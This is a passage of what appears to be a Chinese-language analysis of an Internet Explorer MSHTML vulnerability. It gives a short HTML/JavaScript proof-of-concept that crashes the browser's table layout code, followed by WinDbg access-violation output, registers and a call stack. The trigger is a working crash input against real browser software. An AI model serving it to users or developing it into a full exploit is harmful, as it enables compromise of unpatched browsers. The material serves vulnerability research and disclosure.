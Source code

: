 **漏洞分析**

能够触发该漏洞的一个简短的poc例程如下所示



```
&lt;script&gt;
function bug() `{`
 t = document.getElementsByTagName("table")[0];
 t.parentNode.runtimeStyle.posWidth = "";
 t.focus();
`}`
&lt;/script&gt;
&lt;body onload=bug()&gt;
&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa
```

这是错误输出：



```
(4a8.440): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
MSHTML!Layout::ContainerBox::ContainerBox+0x1e6:
00007ff8`e0c90306 488b04d0        mov     rax,qword ptr [rax+rdx*8] ds:000000a6`e1466168=????????????????
0:010&gt; r
rax=000000a6d1466170 rbx=000000a6d681c360 rcx=000000000000007f
rdx=0000000001ffffff rsi=000000a6d5960330 rdi=00000000ffffffff
rip=00007ff8e0c90306 rsp=000000a6d61794b0 rbp=000000a6d5943a90
r8=0000000000000001  r9=0000000000000008 r10=00000000c0000034
r11=000000a6d61794a0 r12=00000000ffffffff r13=00000000ffffffff
r14=000000000000000b r15=00000000ffffffff
iopl=0         nv up ei pl nz na pe nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
MSHTML!Layout::ContainerBox::ContainerBox+0x1e6:
00007ff8`e0c90306 488b04d0        mov     rax,qword ptr [rax+rdx*8] ds:000000a6`e1466168=????????????????
0:010&gt; k
Child-SP          RetAddr           Call Site
000000a6`d61794b0 00007ff8`e0e49cc0 MSHTML!Layout::ContainerBox::ContainerBox+0x1e6
000000a6`d6179530 00007ff8`e0e554a8 MSHTML!Layout::TableGridBox::TableGridBox+0x38
000000a6`d6179590 00007ff8`e0e553c2 MSHTML!Layout::TableGridBoxBuilder::CreateTableGridBoxBuilder+0xd8
000000a6`d6179600 00007ff8`e0c8b720 MSHTML!Layout::LayoutBuilder::CreateLayoutBoxBuilder+0x2c9
000000a6`d61796c0 00007ff8`e0c8a583 MSHTML!Layout::LayoutBuilderDriver::StartLayout+0x85f
000000a6`d61798d0 00007ff8`e0c85bb2 MSHTML!Layout::PageCollection::FormatPage+0x287
000000a6`d6179a60 00007ff8`e0c856ae MSHTML!Layout::PageCollection::LayoutPagesCore+0x2aa
000000a6`d6179c00 00007ff8`e0c86389 MSHTML!Layout::PageCollection::LayoutPages+0x18e
000000a6`d6179c90 00007ff8`e0c8610f MSHTML!CMarkupPageLayout::CalcPageLayoutSize+0x251
000000a6`d6179db0 00007ff8`e0df85ca MSHTML!CMarkupPageLayout::CalcTopLayoutSize+0xd7
000000a6`d6179e70 00007ff8`e12d472d MSHTML!CMarkupPageLayout::DoLayout+0x76
000000a6`d6179eb0 00007ff8`e0d9de95 MSHTML!CView::EnsureView+0xcde
000000a6`d617a270 00007ff8`e0d1c29e MSHTML!CElement::EnsureRecalcNotify+0x135
000000a6`d617a310 00007ff8`e1556150 MSHTML!CElement::EnsureRecalcNotify+0x1e
000000a6`d617a350 00007ff8`e1555f6b MSHTML!CElement::focusHelperInternal+0x154
000000a6`d617a3b0 00007ff8`e19195ee MSHTML!CElement::focus+0x87
000000a6`d617a400 00007ff8`e06ed862 MSHTML!CFastDOM::CHTMLElement::Trampoline_focus+0x52
000000a6`d617a460 00007ff8`e06f0039 jscript9!amd64_CallFunction+0x82
000000a6`d617a4b0 00007ff8`e06ed862 jscript9!Js::JavascriptExternalFunction::ExternalFunctionThunk+0x154
000000a6`d617a550 00007ff8`e06f26ff jscript9!amd64_CallFunction+0x82
```
